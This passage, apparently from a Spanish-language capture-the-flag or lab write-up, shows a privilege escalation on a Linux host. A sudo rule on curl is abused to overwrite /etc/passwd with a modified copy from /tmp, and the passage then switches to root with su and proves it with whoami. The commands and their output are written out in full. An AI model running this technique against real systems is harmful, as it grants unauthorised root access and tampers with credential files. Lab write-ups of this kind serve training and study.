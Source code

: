 ```bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```

Ahora nos provehcamos para sustituir el archivo original por el nuestro malicioso
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/curl file:///tmp/passwd -o /etc/passwd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1187  100  1187    0     0  11.4M      0 --:--:-- --:--:-- --:--:-- 11.4M
```

Ahora migramos a **root**
```bash
balulero@efec34874b3a:/tmp$ su root
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@efec34874b3a:/tmp# whoami
root
```